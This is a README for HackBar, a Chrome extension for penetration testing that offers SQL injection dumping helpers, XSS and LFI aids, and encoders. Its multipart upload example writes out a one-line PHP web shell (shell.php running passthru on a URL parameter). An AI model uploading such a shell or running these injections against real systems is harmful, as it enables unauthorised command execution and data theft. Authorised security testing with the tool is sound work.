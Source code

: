 # HackBar

HackBar for Chrome.

Available on [Chrome Web Store](https://chrome.google.com/webstore/detail/hackbar/ginpbkfigcoaokgflihfhhmglmbchinc).

## Requested Permissions

* tabs
* webRequest
* webRequestBlocking

## Features

* Supported methods
  * GET
  * POST
    * application/x-www-form-urlencoded
    * [multipart/form-data](#multipartform-data)
    * [application/json](#applicationjson)

* SQLi
  * Dump all database names (MySQL, PostgreSQL)
  * Dump tables from database (MySQL, PostgreSQL)
  * Dump columns from database (MySQL, PostgreSQL)
  * Union select statement (MySQL, PostgreSQL)
  * Error-based injection statement (MySQL)
  * Space to Inline comment

* XSS
  * Html encode/decode
  * String.fromCharCode encode/decode

* LFI
  * PHP wrapper - Base64

* Encoding
  * URL encode/decode
  * Base64 encode/decode
  * Hexadecimal encode/decode
  * Unicode encode/decode

* Hashing
  * MD5
  * SHA1
  * SHA256
  * SHA512

## Usage

### How to open it?

1. Open **Developer tools** (Press ```F12``` or ```Ctrl + Shift + I```)
2. Switch to **HackBar** tab
3. Enjoy it

### Shortcuts

| Description | Default   | Mac           |
| ----------- | --------- | ------------- |
| Load URL    | `Alt + A` | `Control + A` |
| Split URL   | `Alt + S` | `Control + S` |
| Execute URL | `Alt + X` | `Control + X` |

### Supported enctype

#### multipart/form-data

After changing **enctype** field to ```multipart/form-data```, you can put your payload into **Body** field such as the following:

```
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="user"

user
------WebKitFormBoundarydbJBATDXCC6CL0lZ
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-httpd-php

<?php passthru($_GET['c']); ?>
------WebKitFormBoundarydbJBATDXCC6CL0lZ--
```

We will consider the first line as boundary, and reconstruct a form element to send your request.

Therefore, sent boundary will not be the same as your typed.

#### application/json

After changing **enctype** field to ```application/json```, you can put your payload into **Body** field such as the following:

```
{
  "username": "admin",
  "password": "admin"
}
```

In order to post JSON data, we will insert a dummy field or object to your JSON such as the following:

```
{"username":"admin","password":"admin","4dxnzjzd5mi":"="}
```

For more details, please visit "[Posting JSON with an HTML Form](https://systemoverlord.com/2016/08/24/posting-json-with-an-html-form.html)".

## Third-party Libraries

* Vue.js
* Vuetify.js
* [jshashes](https://github.com/h2non/jshashes)
* [utf8.js](https://github.com/mathiasbynens/utf8.js)
